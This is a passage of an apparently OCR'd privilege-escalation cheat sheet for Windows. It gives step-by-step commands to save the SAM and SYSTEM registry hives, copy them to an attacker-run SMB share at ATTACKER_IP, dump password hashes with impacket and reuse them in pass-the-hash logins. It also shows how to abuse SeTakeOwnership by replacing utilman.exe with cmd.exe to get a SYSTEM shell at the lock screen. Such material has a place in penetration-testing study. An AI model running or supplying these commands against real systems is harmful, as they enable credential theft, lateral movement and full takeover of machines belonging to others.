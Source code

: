 2. Backup the SAM and SYSTEM registry hives:
   ```cmd
   reg save hklm\system C:\temp\system.hive
   reg save hklm\sam C:\temp\sam.hive
   ```

3. Transfer the hives to your attack machine using SMB or other methods:
   ```cmd
   # On attacker machine
   mkdir share
   python3 -m impacket.smbserver -smb2support -username user -password pass public share

   # On victim
   copy C:\temp\sam.hive \\ATTACKER_IP\public\
   copy C:\temp\system.hive \\ATTACKER_IP\public\
   ```

4. Extract password hashes using impacket:
   ```bash
   python3 -m impacket.secretsdump -sam sam.hive -system system.hive LOCAL
   ```

5. Use the hashes for Pass-the-Hash attacks:
   ```bash
   python3 -m impacket.psexec -hashes aad3b435b51404eeaad3b435b51404ee:HASH administrator@TARGET_IP
   ```

## SeTakeOwnership Exploitation

This privilege allows taking ownership of any object in the system.

### Exploitation Steps

1. Verify the privilege is present:
   ```cmd
   whoami /priv
   ```

2. Take ownership of a critical system file (e.g., utilman.exe):
   ```cmd
   takeown /f C:\Windows\System32\utilman.exe
   ```

3. Grant yourself full permissions:
   ```cmd
   icacls C:\Windows\System32\utilman.exe /grant YourUsername:F
   ```

4. Replace the file with a copy of cmd.exe:
   ```cmd
   copy C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
   ```

5. Lock the screen and click the "Ease of Access" button to spawn a SYSTEM shell

## SeImpersonate / SeAssignPrimaryToken Exploitation
